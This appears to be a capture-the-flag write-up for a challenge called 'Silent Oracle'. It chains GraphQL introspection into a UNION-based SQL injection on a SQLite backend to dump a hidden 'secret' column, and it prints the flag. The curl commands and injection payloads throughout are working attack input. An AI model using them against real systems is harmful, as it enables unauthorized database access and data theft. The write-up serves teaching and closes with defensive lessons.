








$ cat silent-oracle.md
Silent Oracle
"A quiet internal directory exposes only a small public surface. The useful answer are hidden behind how the service thinks about people and roles."
Vulnerability chain: GraphQL Introspection → SQL Injection → Hidden Column Exfiltration
reconnaissance
The landing page presents a "Shadow Directory" — a minimal search box with
a pre-filled GraphQL query and a Run Query button. The
public fields (id, username, displayName,
role, bio) look completely harmless.

Viewing the page source revealed the form POSTed to /graphql
with a parameter named payload. The backend was running a
GraphQL API on Python/Werkzeug.
graphql introspection
First thing I tried was a full schema dump via Burp — sending
{ __schema { types { name } } } against the endpoint.

__schema introspection POST.
User type.
With the type list confirmed, I drilled into Query to find
the root-level fields:
$ curl -X POST http://<target>/graphql \
-H "Content-Type: application/json" \
-d '{"query":"{ __type(name: \"Query\") { fields { name } } }"}'

about and users.Then enumerated the User type itself:
$ curl -X POST http://<target>/graphql \
-H "Content-Type: application/json" \
-d '{"query":"{ __type(name: \"User\") { fields { name } } }"}'

id, username, displayName, role, bio.
Querying about returned:
"Shadow Directory exposes a small public employee search API."
Querying all users returned 4 entries — guest,
mira, rakan, and admin (id 4).
discovering sql injection
The users(search:) argument was passed unsanitized into a
SQL query. I crafted a UNION payload with five sentinel columns to map
where each value lands in the response:
$ cat > /tmp/query.json << 'EOF' {"query":"{ users(search: \"' UNION SELECT 1,2,3,4,5--\") { id username displayName role bio } }"} EOF $ curl -X POST http://<target>/graphql \ -H "Content-Type: application/json" \ -d @/tmp/query.json

Injected values appeared in the response, confirming the column mapping:
# column → field
column 2 → username
column 3 → displayName
column 5 → bio
database enumeration
Confirmed SQLite backend (MySQL's information_schema
returned "no such table"). Dumped all tables via
sqlite_master:
{"query":"{ users(search: \"' UNION SELECT 1,name,3,4,5 FROM sqlite_master WHERE type='table'--\") { id username displayName role bio } }"}
Tables found:
usersaudit_logsqlite_sequence
Dumped the users table schema by selecting sql instead of name:
$ cat > /tmp/query.json << 'EOF' {"query":"{ users(search: \"' UNION SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'--\") { id username displayName role bio } }"} EOF $ curl -X POST http://<target>/graphql \ -H "Content-Type: application/json" \ -d @/tmp/query.json

CREATE TABLE statement leaks the hidden secret TEXT NOT NULL column.
The schema revealed a secret TEXT NOT NULL column —
completely hidden from the GraphQL User type.
extracting the flag
With the hidden column name known, the final payload pulls secret directly:
$ cat > /tmp/query.json << 'EOF' {"query":"{ users(search: \"' UNION SELECT 1,secret,3,4,5 FROM users--\") { id username displayName role bio } }"} EOF $ curl -X POST http://<target>/graphql \ -H "Content-Type: application/json" \ -d @/tmp/query.json
The admin user's secret field contained the flag.

secret value dumped and shows in the usernamecolumn value, there's the flag!vulnerability chain
- 1. GraphQL introspection — mapped the schema, found
users(search:)query. - 2. SQL injection — UNION SELECT via the unsanitized
searchargument. - 3. DB enumeration —
sqlite_masterdump revealed the hiddensecretcolumn. - 4. Flag extraction —
SELECT secret FROM usersreturned the flag.
lessons learned
- disable GraphQL introspection in production — it exposes your full API surface to attackers.
- parameterize all SQL queries — never interpolate user input directly into SQL strings.
- hidden database columns are not a security boundary — SQL injection bypasses schema-level restrictions entirely.
- GraphQL does not sanitize resolvers — each resolver must validate and sanitize input independently.
- character filtering (blocking
<,{) is not a substitute for proper input sanitization.
flag
0xV01D{13824a82-621f-49fd-9a8c-20a41fe7b2b8}